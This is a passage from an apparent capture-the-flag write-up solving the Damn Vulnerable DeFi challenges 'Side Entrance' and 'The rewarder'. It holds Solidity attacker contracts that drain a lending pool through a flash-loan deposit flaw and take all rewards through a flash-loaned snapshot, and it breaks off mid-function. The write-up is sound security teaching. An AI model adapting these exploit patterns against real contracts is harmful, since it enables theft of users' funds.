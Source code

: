 ## [4. Side Entrance](https://www.damnvulnerabledefi.xyz/challenges/4.html)

This pool allows user's to deposit and withdraw ETH at any time, while also maintaining flash loan functionality. Due to the way deposits are counted, we can flash loan out some ETH and call the deposit function. This tracks that we've deposited some ETH even though we're just returning the ETH from the contract.

```javascript
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }       
```
We can create an attacker contract to exploit this and siphon out all of the ETH in the contract:
```javascript
    //our flash loan receiver function
    function execute() external payable override {
        SideEntranceLenderPool selp = SideEntranceLenderPool(msg.sender);
        //deposit the ether back to increase our balance
        selp.deposit{value: address(this).balance}();
    }

    //attacker function to initiate the attack
    function getbread(address pool, uint256 amount) public payable {
        SideEntranceLenderPool selp = SideEntranceLenderPool(pool);
        //flash loan 1000 ether
        selp.flashLoan(amount);
        //after execute() runs, our tracked balance is 1000 ether
        selp.withdraw();
        //send the 1000 ether back to ourself
        msg.sender.sendValue(address(this).balance);
    }

```
```javascript
    it('Exploit', async function () {
        await this.attackerContract.getbread(this.pool.address, ether('1000'), { from: attacker });
    });
```

## [5. The rewarder](https://www.damnvulnerabledefi.xyz/challenges/5.html)

The contract rewards users who deposit DVT tokens into the contract, based on a snapshot of balances that gets taken every 5 days. By flash loaning the entire pool balance and taking a snapshot for rewards distribution, we can claim all of the rewards while no-one else receives any.

```javascript
    function attack() external {
        DamnValuableToken dvt = DamnValuableToken(liquidityToken);
        FlashLoanerPool flp = FlashLoanerPool(flashLoanPool);
        TheRewarderPool trp = TheRewarderPool(rewarderPool);
        RewardToken rt = RewardToken(trp.rewardToken());
        
        //flash loan the balance of the pool
        uint amtToLoan = dvt.balanceOf(address(flashLoanPool));
        flp.flashLoan(amtToLoan);

        //transfer back stolen tokens
        rt.transfer(attacker, rt.balanceOf(address(this)));
    }

    function receiveFlashLoan(uint256 amount) external {
        DamnValuableToken dvt = DamnValuableToken(liquidityToken);
        TheRewarderPool trp = TheRewarderPool(rewarderPool);
```